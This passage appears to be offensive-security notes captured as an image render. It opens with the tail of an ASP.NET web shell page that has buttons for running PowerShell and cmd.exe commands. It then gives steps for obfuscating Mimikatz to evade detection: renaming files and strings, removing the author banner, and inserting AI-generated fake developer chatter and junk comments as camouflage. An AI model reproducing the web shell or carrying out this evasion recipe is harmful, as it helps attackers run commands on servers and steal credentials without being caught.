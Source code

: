 ```asp
<asp:Label id="lblText_pwsh" style="Z-INDEX: 203; LEFT: 310px; POSITION: absolute; TOP: 44px" runat="server">Execute PowerShell:</asp:Label>
</form>
<form id="cmd_se" method="post" runat="server">
<asp:TextBox id="txtArg_cmd_se" style="Z-INDEX: 301; LEFT: 405px; POSITION: absolute; TOP: 60px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing_cmd_se" style="Z-INDEX: 302; LEFT: 675px; POSITION: absolute; TOP: 54px" runat="server" Text="cmd.exe ShellExec" OnClick="cmdExe_SE_Click"></asp:Button>
<asp:Label id="lblText_cmd_se" style="Z-INDEX: 303; LEFT: 310px; POSITION: absolute; TOP: 66px" runat="server">Execute cmd.exe /c with UseShellExecute:</asp:Label>
</form>
</body>
</HTML>

<!-- "Improvements" by 7ru7h and Phind model for button position guessing--->
<!-- Contributed by Dominic Chell (http://digitalapocalypse.blogspot.com/) -->
<!--    http://michaeldaw.org   04/2007    -->
```


#### Mimikatz

#### List the words to replace in order across all files 

- All filename names for:
	- modules


Remove all comments after replace just to have some chunk and so it does not look very stripped

- Add comments:
- AI generate conversation in comments 
	- `This need fucking fixed {X person}`
	- `WTF does this do {Y person}`
- AI generate junk descriptions

- Remove all frenchness ` coffee =kdbg_coffee`, replace with getTheNuts c stdout silly file 

Replace in mimikatz.c
```
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/

		L"  .#####.   " MIMIKATZ_FULL L"\n"
		L" .## ^ ##.  " MIMIKATZ_SECOND L" - (oe.eo)\n"
		L" ## / \\ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )\n"
		L" ## \\ / ##       > https://blog.gentilkiwi.com/mimikatz\n"
		L" '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )\n"
		L"  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/\n");

POWERKATZ

mimikatz

MIMIKATZ

powershell

POWERSHELL

```
